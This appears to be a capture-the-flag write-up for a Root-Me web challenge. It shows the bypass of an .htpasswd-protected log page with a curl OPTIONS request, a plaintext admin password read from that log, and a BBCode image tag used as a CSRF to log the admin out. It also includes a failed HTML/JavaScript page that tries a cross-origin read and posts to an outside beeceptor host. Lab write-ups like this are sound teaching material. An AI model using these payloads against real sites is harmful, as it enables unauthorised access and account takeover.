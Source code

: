There is a lot to read in the news section of the website. (even if it is, sadly, in french)

```
18/08/2011 01:00:45 Creation d'une page de contact (avec du BBCode).
```
 informs us that we can contact the administrator, and that the contact form allows BBCode (so we will be able to send a link to an image (or do a CSRF attack)).

```
22/08/2011 22:00:30 Ajout d'un systeme de journalisation d'événements pour l'admin.
```

explains that the admin created a log file.

Let's look for it: http://challenge01.root-me.org/realiste/ch7/log

Then http://challenge01.root-me.org/realiste/ch7/log/log.php

Unfortunately, the page is protected by a .htpasswd. But we learned how to bypass the with http verb tampering ! Just use

```
curl -X OPTIONS http://challenge01.root-me.org/realiste/ch7/log/log.php
```

```
------------------------ Log ---------------------
    login=toto / password=titi / no such user
    login=toto / password=toto / no such user
    login=toto / password=tutu / no such user
    login=administrateur / password=4Dm1N_de_ste / Password rejected for administrateur
    login=administrateur / password=4Dm1N_de_site / Accepted password for administrateur
    --------------------------------------------------
```

We can now try to log as an admin ! But we find this error: **Erreur : user already logged in !**.
Our task will be to disconnect the admin! We are going to use a CSRF to do this. To disconnect, a URL is used:
http://challenge01.root-me.org/realiste/ch7/hackers.php?page=deconnect

Well, we just put this address into a BBCode
```
	  [img]http://challenge01.root-me.org/realiste/ch7/hackers.php?page=deconnect[/img]
```
The admin get disconnected, we can log in and get access to the exploit page!



Note: I tried a CSRF attack by redirecting the admin to a page like this:

```
<!DOCTYPE html>
<html lang="en" dir="ltr">
  <head>
    <meta charset="utf-8">
    <title>Trying stuff</title>
  </head>
  <body onload="">
    <script>
      alert('issou')
      url = "http://challenge01.root-me.org/realiste/ch7/hackers.php?page=exploits";
      xmlhttp=new XMLHttpRequest();
      xmlhttp.open('GET', url, true);
      xmlhttp.onreadystatechange=function(){
        alert(xmlhttp.responseText);
      };
      xmlhttp.send(null);
    </script>
<form action="https://ayaya.free.beeceptor.com/" name="formus"><input name="name1" value="foo"><input name="filed2" value"S E X E"></form>
  </body>
</html>
```

But the site is protected against CSRF and we get the following result:

```
Cross-Origin Request Blocked: The Same Origin Policy disallows reading the remote resource at http://challenge01.root-me.org/realiste/ch7/hackers.php?page=exploits. (Reason: CORS header ‘Access-Control-Allow-Origin’ missing).
```
